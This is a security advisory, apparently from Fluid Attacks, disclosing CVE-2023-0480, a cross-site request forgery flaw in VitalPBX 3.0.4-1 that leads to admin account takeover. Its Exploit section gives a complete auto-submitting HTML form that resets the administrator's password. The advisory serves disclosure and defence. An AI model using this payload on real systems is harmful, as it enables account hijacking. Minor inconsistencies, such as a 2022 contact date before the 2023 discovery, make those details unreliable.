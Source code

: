```yaml
---
slug: advisories/sharp/
title: VitalPBX 3.0.4-1 - Account Takeover via CSRF
authors: Carlos Bello
writer: cbello
codename: sharp
product: VitalPBX 3.0.4-1
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0480
severity: 6.5
description: VitalPBX 3.0.4-1     -    Account Takeover via CSRF
keywords: Fluid Attacks, Security, Vulnerabilities, Vital PBX, Account Takeover
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | VitalPBX 3.0.4-1     -    Account Takeover via CSRF                  |
| **Code name**         | [Sharp](https://en.wikipedia.org/wiki/Ten_Sharp)                     |
| **Product**           | VitalPBX                                                             |
| **Affected versions** | 3.0.4-1                                                              |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                             |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)          |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N                                                               |
| **CVSSv3 Base Score** | 6.5                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0480)                          |

## Description

VitalPBX version 3.0.4-1 allows an unauthenticated external attacker to
obtain the instance administrator's account. This is possible because the
application is vulnerable to CSRF.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF.

### Exploit

To exploit this vulnerability, we only need to send the administrator a
malicious HTML like the following.

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://137.184.73.151/index.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user_id" value="1" />
      <input type="hidden" name="class" value="user_profile" />
      <input type="hidden" name="method" value="put" />
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="password" value="hacked" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="startapp" value="dashboard" />
      <input type="hidden" name="startapp_custom" value="" />
      <input type="hidden" name="displayname" value="Administrator" />
      <input type="hidden" name="department" value="Administración" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto_configured" value="" />
      <input type="hidden" name="theme" value="vital_pbx" />
      <input type="hidden" name="locale" value="en_US" />
      <input type="hidden" name="timezone" value="system" />
      <input type="hidden" name="multitab" value="1" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Evidence of exploitation

![CSRF-Leads-ATO](https://user-images.githubusercontent.com/51862990/214678035-df11fa40-5836-4458-a40b-55427a46ba3d.gif)

## Our security policy

We have reserved the ID CVE-2023-0480 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: VitalPBX 3.0.4-1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://vitalpbx.com/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>
